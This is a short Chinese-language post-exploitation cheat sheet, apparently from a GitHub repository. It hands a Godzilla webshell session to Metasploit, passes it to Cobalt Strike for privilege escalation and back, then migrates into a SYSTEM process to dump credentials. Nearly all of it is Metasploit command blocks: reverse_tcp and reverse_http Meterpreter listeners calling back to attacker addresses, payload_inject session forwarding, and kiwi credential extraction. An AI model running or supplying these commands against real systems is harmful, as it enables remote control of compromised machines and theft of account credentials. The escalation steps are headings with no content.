



### Godzilla联动上线MSF



### 上线MSF

```cmd
# 监听上线
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.31.16
set LPORT 4444
run
```

### 转发到CS提权再转回来

```cmd
# MSF执行转发到CS
use exploit/windows/local/payload_inject
set payload windows/meterpreter/reverse_http
set prependmigrate true
set DisablePayloadHandler true
set LHOST 192.168.31.190
set LPORT 680
set SESSION 3
run
```

### 提权


### 将Sytem权限再转回MSF





### 转回来的MSF监听

```cmd
use exploit/multi/handler
set payload windows/meterpreter/reverse_http
set lhost 192.168.31.16
set lport 4444
run
```

### 迁移进程抓密码

```cmd
# 迁移一个带会话的system进程
migrate xxx
load kiwi
creds_tspkg
```


